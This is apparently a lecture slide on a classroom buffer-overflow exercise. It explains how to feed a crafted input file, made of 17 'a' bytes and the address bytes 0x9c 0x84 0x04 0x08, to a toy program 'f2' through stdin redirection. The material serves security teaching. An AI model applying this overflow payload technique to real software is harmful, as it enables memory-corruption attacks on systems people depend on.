

# how do we enter 0x9c 0x84 0x04 0x08?
$ ./f2
enter id:
aaaa......aaaa
=> no key for 0x9c, 0x84, 0x04, 0x08
=> use "standard input redirection"

$ ./f2 < attack-inp
now scanf("%d", id); in f2 will read input from attack-inp file not
from keyboard

attack-inp file should contain 17 'a' and 0x9c, 0x84, 0x04, 0x08
$ xxd attack-inp
0x61 0x61 0x61 .......... 0x9c 0x84 0x04 0x08

The lecture note explains how to make attack-inp file.